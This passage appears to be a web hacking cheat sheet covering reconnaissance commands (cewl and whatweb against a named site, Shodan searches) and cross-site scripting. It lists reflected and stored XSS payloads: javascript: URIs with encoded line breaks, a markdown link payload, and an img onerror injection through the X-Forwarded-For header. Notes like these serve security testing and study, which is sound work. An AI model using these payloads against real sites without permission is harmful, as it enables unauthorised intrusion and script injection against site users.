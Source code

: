 Generate wordlists
```
$ cewl abhaynayar.com
```
Cookies, country, headers.
```
$ whatweb abhaynayar.com
```

Computer search engine
```
https://www.shodan.io/search?query=Werkzeug
```

Reverse IP Lookup
```
https://www.yougetsignal.com/tools/web-sites-on-web-server/
```

## Ch3 - XSS

### Reflected

Check if these characters are permitted `"'<>();[]{}AbC`

XSS in href attribute
```
javascript:alert(1)
javascript://%0d%0aalert(1);
javascript://%0d%0aalert(1);//http://derp.com
javascript://%0d%0alert(1);//.com
```

Correct values for JSON responses are typically `text/javascript` or `application/json` if your value is being reflected and if you get `text/html` try for an XSS.

### Stored

Markdown
```
[Hi](javascript:alert(1);)
```
Spoofed IP address
- Use the `X-Forwarded-For` header (used by HTTP proxies)
- `X-Forwarded-For: "><img src=x onerror=alert(0);>`

### Resources
- http://html5sec.org
- https://www.blueclosure.com/
- https://code.google.com/archive/p/domxsswiki/wikis/Introduction.wiki

## Ch4 - CSRF

JSON
